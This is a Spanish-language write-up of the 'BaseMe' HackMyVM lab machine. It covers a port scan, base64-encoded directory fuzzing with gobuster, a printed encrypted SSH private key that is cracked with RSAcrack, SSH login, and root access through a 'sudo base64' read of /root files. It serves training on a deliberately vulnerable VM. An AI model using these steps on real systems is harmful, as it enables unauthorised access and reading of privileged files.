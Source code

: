 ```yaml
---
date: 2022-05-2 23:48:05
layout: post
title: BaseMe - HackMyVm
subtitle: 
description: >-
    BaseMe es una máquina de nivel fácil de la plataforma HackMyVm en la que tocaremos mucho Base64 y crackeo de RSA.
image: /assets/images/HMV/baseme-HackMyVM/previsualización.jpg
optimized_image: /assets/images/HMV/baseme-HackMyVM/previsualización.jpg
category: blog
tags:
  - Linux
  - blog
  - HackMyVM
author: elc4br4
paginate: true
---
```



# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 ca:09:80:f7:3a:da:5a:b6:19:d9:5c:41:47:43:d4:10 (RSA)
|   256 d0:75:48:48:b8:26:59:37:64:3b:25:7f:20:10:f8:70 (ECDSA)
|_  256 91:14:f7:93:0b:06:25:cb:e0:a5:30:e8:d3:d3:37:2b (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos dos puertos abiertos, el 22 (ssh) y el 80 (http).

# Explotación

Abro el navegador para ver que tenemos en el puerto 80.

Al abrirlo encuentro una cadena codificada en base64 y varias palabras que podríamos usar más tarde como diccionario para algún tipo de ataque que lo requiera.

![](/assets/images/HMV/baseme-HackMyVM/dicbase64.png)


Decodificamos la cadena:

```bash
❯ echo "QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK " | base64 -d
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

Todo lo necesario ha de estar en base64 según dice la nota.

A continuación procedo a fuzzear para buscar posibles rutas en el servidor, pero antes de nada debemos codificar las palabras del diccionario que usaremos en base64.

Yo usaré un pequeño script para realizar esta tarea de forma automatizada y más rápido.


```bash
#!/bin/bash

for i in `cat common.txt` ; do echo $i | base64 >> base64enc.txt ; done
```

Codifico el diccionario common.txt de la ruta `/usr/share/wordlists/dirb/common.txt` y ahora ya sí podemos fuzzear usando el diccionario.

```bash
❯ gobuster -u http://192.168.0.27 -w base64enc.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.0.27/
[+] Threads      : 10
[+] Wordlist     : base64enc.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/05/02 01:50:32 Starting gobuster
=====================================================
/aWRfcnNhCg== (Status: 200)
/cm9ib3RzLnR4dAo= (Status: 200)
=====================================================
2022/05/02 01:50:34 Finished
=====================================================
```

Como podemos ver tenemos las siguientes rutas:

```bash
/aWRfcnNhCg== 
/cm9ib3RzLnR4dAo=
```

Accedo desde el navegador a la ruta `/aWRfcnNhCg==` y se me descarga un archivo, la otra ruta no nos dio nada que nos pudiera servir.

![](/assets/images/HMV/baseme-HackMyVM/rsaenc.png)

Decodifico la cadena y es una clave RSA.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

Asignamos permisos 600 a la clave id_rsa

`chmod 600 id_rsa`

Intento usar la clave para loguearme por ssh pero me pide la contraseña, por lo tanto debo crackear la id_rsa para obtener la contraseña.

Para crackear la clave RSA puedo usar **ssh2john** pero usaré otra herramienta:

[https://github.com/d4t4s3c/RSAcrack](https://github.com/d4t4s3c/RSAcrack)

Usaré la herramienta RSAcrack creada por d4t4s3c.

Pero antes de nada debemos recordar que todo ha de estar codificado en base64 y que necesitamos un diccionario... Y me acordé de la lista de palabras que encontramos al comienzo del CTF.

Codifico la lista de palabras:

```bash
aWxvdmV5b3UK
eW91bG92ZXlvdQo=
c2hlbG92ZXN5b3UK
aGVsb3Zlc3lvdQo=
d2Vsb3ZleW91Cg==
dGhleWhhdGVzbWUK
```

Y procedo a crackear la clave:


![](/assets/images/HMV/baseme-HackMyVM/rsa.gif)


Ya tenemos la contraseña, ahora debemos loguearnos por ssh usando la misma.

Me logueo por ssh y ya podremos leer la flag user.txt

```bash
❯ ssh lucas@192.168.0.27 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 20:13:28 2022 from 192.168.0.52
```

# Escalada de Privilegios

Ahora procedo a escalar privilegios para leer la bandera root.txt

Lanzando `sudo -l` puedo ver que puedo ejecutar el binario base64 como root sin contraseña.

Asique me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/base64/](https://gtfobins.github.io/gtfobins/base64/)


![](/assets/images/HMV/baseme-HackMyVM/base64gtfo.png)

Si ejecutamos el comando podemos leer cualquier archivo del sistema.


`sudo /usr/bin/base64 /root/root.txt | base64 --decode` 

Y listo, ya tenemos la flag root.




